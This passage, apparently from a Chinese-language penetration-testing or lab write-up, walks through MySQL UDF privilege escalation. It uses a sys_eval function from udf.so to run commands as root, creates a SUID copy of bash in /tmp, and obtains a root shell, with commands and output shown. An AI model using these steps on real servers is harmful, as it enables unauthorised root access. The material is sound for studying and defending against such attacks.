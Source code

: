         mysql> select * from mysql.func; 
        +----------+-----+--------+----------+
        | name     | ret | dl     | type     |
        +----------+-----+--------+----------+
        | sys_eval |   2 | udf.so | function |
        +----------+-----+--------+----------+
        
        mysql> select sys_eval('whoami'); // 函数存在root函数
        +--------------------+
        | sys_eval('whoami') |
        +--------------------+
        | root               |
        +--------------------+
        ```
        
3. 提权
    - 创建用户自定义函数后，函数获得root权限，通过函数来获得`root`的`shell`
        
        ```sql
        mysql> select sys_eval('cp /bin/bash /tmp/binbash; chmod +xs /tmp/binbash');
        +---------------------------------------------------------------+
        | sys_eval('cp /bin/bash /tmp/binbash; chmod +xs /tmp/binbash') |
        +---------------------------------------------------------------+
        | NULL                                                          |
        +---------------------------------------------------------------+
        ```
        
        - `cp /bin/bash /tmp/binbash`：将 `/bin/bash` 文件复制到 `/tmp` 目录，并命名为 `binbash`。
        - `chmod +xs /tmp/binbash`：给复制的文件 `binbash` 设置 SUID 位，这样当用户执行该文件时，进程将以文件拥有者（通常是 root）的权限运行。
    - 获得shell
        
        ```sql
        www-data@web:/tmp$ /tmp/binbash -p
        //
        binbash-4.2# whoam
        root
        ```
        

## 思路

因为获得了数据库密码，并且是root用户，查看配置适合使用UDF